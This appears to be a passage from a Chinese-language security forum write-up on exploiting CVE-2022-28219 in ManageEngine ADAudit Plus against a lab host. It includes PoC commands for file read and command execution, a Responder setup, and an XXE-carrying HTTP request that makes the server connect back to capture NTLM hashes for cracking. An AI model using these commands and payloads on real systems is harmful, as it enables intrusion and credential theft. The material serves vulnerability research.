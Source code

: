 ```php
python3 CVE-2022-28219.py -t http://192.168.20.246:8081/ -l 192.168.20.151 -d fbi.gov -f /windows/win.ini
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-d20c127f295abc12cc85c0368d9cbe5c43d7ce0c.png)  
执行命令：

```php
python3 CVE-2022-28219.py -t http://192.168.20.246:8081/ -l 192.168.20.151 -d fbi.gov -c calc.exe
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-a5b9ab6a73f5857f9bfe25fb2c51a93a65870b95.png)  
和手工触发的流程一致，多了一个列user目录的过程，来探测当前机器上的用户和用户目录。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9c5fa878d98fbf7e61edaf6f68d5588994274cd6.png)  
找到生成的临时文件tmp之后发送请求访问上传的tmp文件来触发漏洞导致命令执行。

### 六、SSRF到NTLM中继

我们在攻击者机器上运行著名的[响应器工具](https://github.com/lgandx/Responder)

```php
python3 Responder.py -I eth0
```

发送一个请求来触发 XXE 并让 ADAudit Plus 服务器连接回攻击 IP

```php
POST /api/agent/tabs/agentData HTTP/1.1
Host: 192.168.20.246:8081
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 393
Content-Type: application/json

[
    {
        "DomainName": "fbi.gov",
        "EventCode": 4688,
        "EventType": 0,
        "TimeGenerated": 0,
        "Task Content": "&lt;?xml version=\"1.0\" encoding=\"UTF-8\"?&gt;  %xxe; ]&gt;"
    }
]
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-69df45866152ae4c40aaa00812c7aff86678afc3.png)  
获取用户fbi的net-ntlmhash，后续可以使用hashcat尝试破解NTLMv2hash。

### 七、通过ntlmrelay获取机器的权限

如果在目标机器上的jdk版本有问题导致无法rce，只存在xxe的情况下作何利用？
